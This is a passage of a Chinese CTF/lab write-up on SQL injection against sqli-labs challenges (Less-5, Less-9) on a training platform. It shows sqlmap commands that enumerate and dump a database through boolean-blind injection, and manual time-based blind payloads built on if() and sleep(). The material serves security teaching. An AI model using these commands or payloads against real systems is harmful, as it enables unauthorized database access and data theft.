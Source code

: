 ```sql
python sqlmap.py -u http://fb38469f-e856-4765-99c5-a785393f23ee.node5.buuoj.cn/Less-5/?id=1 --technique B -dbs
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732113307128-40644e42-e33c-440f-a4bb-11b0e53a7bba.png)

**爆表**

```sql
python sqlmap.py -u http://fb38469f-e856-4765-99c5-a785393f23ee.node5.buuoj.cn/Less-5/?id=1 --technique B -D ctftraining --tables
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732113549906-af7d6fb8-7d32-4e74-b309-2da7415da9ec.png)

**爆列**

```sql
python sqlmap.py -u http://fb38469f-e856-4765-99c5-a785393f23ee.node5.buuoj.cn/Less-5/?id=1 --technique B -D ctftraining -T flag --columns
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732113600230-bd6553b7-0594-4703-ab87-22c7cadb1adb.png)

**爆数据**

```sql
python sqlmap.py -u http://fb38469f-e856-4765-99c5-a785393f23ee.node5.buuoj.cn/Less-5/?id=1 --technique B -D ctftraining -T flag -C flag --dump
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732113669453-2f39638a-5af6-4668-8f20-8ece070d7668.png)

### 延时盲注
**含义：**

**因为无论输入什么，结果都一样。在布尔盲注的基础上加上时间函数，以出现回显的时间是否延迟为判断条件**

#### 重要函数
```sql
# a是判断条件，正确就执行b，错误就执行c
if(a,b,c)
# 延时函数，a代表秒数
sleep(a)
```

#### 以 Less9 为例
##### 手注（演示）
**判断闭合类型**

**第一个延时了，第二个没延时。为单引号闭合**

```sql
?id=1' and if(1=1,sleep(5),1)--+
?id=1" and if(1=1,sleep(5),1)--+
```
